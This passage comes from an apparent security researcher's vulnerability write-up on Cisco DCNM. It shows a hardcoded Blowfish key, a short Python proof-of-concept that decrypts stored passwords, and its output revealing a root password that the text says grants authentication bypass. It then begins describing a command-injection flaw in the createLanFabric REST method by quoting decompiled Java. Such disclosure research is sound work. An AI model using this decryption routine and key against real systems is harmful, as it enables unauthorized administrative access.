 On line *[39]* the code encrypts these passwords using the `jaas is the way` key. Yes, Cisco, jaas is the way.

```py
#!/usr/bin/python
import sys
from Crypto.Cipher import Blowfish
cipher = Blowfish.new("jaas is the way", Blowfish.MODE_ECB)
print cipher.decrypt(sys.argv[1].decode("hex"))
```

```bash
saturn:~ mr_me$ ./poc.py 59f44e08047be2d72f34371127b18a0b
Dcnmpass123
```

With this, we can now login to the DCNM web interface as the root user with `network-admin` privileges, which is enough for a complete authentication bypass.
We can also login to the SSH server as root but we don't talk about that default misconfiguration and instead assume the SSH server is locked down. :-)
[ret2toc](#table-of-contents)

### LanFabricImpl createLanFabric Command Injection Remote Code Execution Vulnerability

Inside of the `com.cisco.dcbu.vinci.rest.services.LanFabrics` class we can find the `createLanFabric` rest method.

```java
/*     */ @Path("/fabrics")
/*     */ public class LanFabrics
/*     */ {
/*  42 */   private final Logger log = LogManager.getLogger("fabrics");
/*     */   
/*     */   @POST
/*     */   @Consumes({"application/json"})
/*     */   @Produces({"application/json"})
/*     */   @Mapped
/*     */   public Response createLanFabric(@RequestBody LanFabricSetting fabric) {
/*  49 */     StatusCode res = StatusCode.ProcessingError;
/*  50 */     String errorHeading = "Creating LAN fabric fails. ";
/*  51 */     LanFabricSetting setting = null;
/*     */     try {
/*  53 */       LanFabricImpl impl = new LanFabricImpl();
/*  54 */       res = impl.createLanFabric(fabric);
/*  55 */       if (res == StatusCode.Success) {
/*     */         
/*  57 */         setting = new LanFabricSetting();
/*  58 */         setting.setName(fabric.getName());
/*     */       } 
/*  60 */     } catch (Exception e) {
/*  61 */       e.printStackTrace();
/*  62 */       errorHeading = errorHeading + " " + e.getMessage();
/*     */     } 
/*  64 */     return RestHelper.composeHttpResponse(res, setting, errorHeading, this.log);
/*     */   }
```
